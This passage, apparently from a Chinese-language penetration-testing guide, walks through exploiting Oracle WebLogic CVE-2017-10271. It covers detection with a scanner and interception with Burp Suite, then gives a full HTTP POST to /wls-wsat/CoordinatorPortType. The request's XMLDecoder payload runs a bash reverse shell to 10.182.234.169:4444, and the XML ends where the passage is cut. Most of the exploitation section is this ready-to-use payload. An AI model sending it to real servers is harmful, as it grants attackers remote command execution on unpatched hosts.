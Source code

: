 ![CVE_2017_10271_2](./img/weblogic_CVE-2017-10271/CVE_2017_10271_2.png)

---

### 利用方式 

---

#### 探测确认

利用weblogicScanner(https://github.com/0xn0ne/weblogicScanner)，检查是否存在漏洞。

![CVE_2017_10271_5](./img/weblogic_CVE-2017-10271/CVE_2017_10271_5.png)

---

#### 利用过程

使用burpsuite访问http://ip:7001/wls-wsat/CoordinatorPortType 显示如下：

![03](./img/weblogic_CVE-2017-10271/03.png)

将抓到的包修改为POST请求并加上payload

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.1.189:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 639

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.182.234.169/4444 0&gt;&amp;1</string>
</void>
</array>
```